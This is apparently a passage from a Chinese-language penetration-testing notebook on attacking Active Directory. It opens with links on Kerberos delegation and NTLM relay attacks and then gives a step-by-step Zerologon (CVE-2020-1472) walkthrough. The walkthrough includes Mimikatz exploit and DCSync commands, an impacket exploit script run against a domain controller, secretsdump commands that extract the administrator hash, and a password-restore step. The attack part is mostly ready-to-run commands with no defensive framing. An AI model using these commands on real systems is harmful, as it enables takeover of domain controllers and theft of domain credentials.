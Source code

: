 
##### Kerberos委派
 * [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
 * [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
 * [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
 * [用打印服务获取域控](https://adsecurity.org/?p=4056)
 * [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
 * [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
 * [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

##### 地址解析协议 
实在搞不定再搞ARP 
##### Zerologon 
1、利用Mimikatz
**check**
```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$
```
**exploit**
```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$ /exploit
```
**dcsync**
```
lsadump::dcsync /dc:dc1.exploit.local /authuser:dc1$ /authdomain:exploit.local /authpassword:"" /domain:exploit.local /authntlm /user:krbtgt
```
**restore**
```
lsadump::postzerologon /target:conttosson.locl /account:dc$ 
```
2、利用impacket：
* 取目标主机名+IP
* install 修改版本的impacket
* Exp

```
python cve-2020-1472-exploit.py DC2008 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200916190137.png)
```
secretsdump.py -no-pass cgdomain.com/'DC2008$'@10.211.55.200 -history -just-dc-user administrator
```
```
secretsdump.py -no-pass cgdomain.com/administrator@10.211.55.200 -hashes aad3b435b51404eeaad3b435b51404ee:3add1560657a19b3166247eb3eb149ae
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200916190359.png)

获取到旧的密码明文hex，还原
```
python restorepassword.py cgdomain.com/DC2008@DC2008 -target-ip 10.211.55.200 -hexpass 59958639cbdd4523de5d42b01adb0e256e0d39aef14c8eef31f4c078862109f253bbb7b3817ab123d013856c028fa4993f5f5b9a830a3a98d87483b29df3fb55082a1f464b19220a2c04f6605d2d321a04afbb551f8f19a13d399f9f5af2aa23c5b76b49001033516fefd90cb0348256e8282b22cbf9e70d82a8b8d2916d578246e288af3af727533d36ad8950fe1c513771377d98a947c4a8eae2b581a74b6687a2e533b7e89e8d03c2e6c2123d519489869a6e33d3a8884be33107060b62e2852502261f48c097ddb68750cc55b7688cc951441cf02989a307f55c008e978edbaf31766d17b53505016c7580cb480b
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200916190457.png)
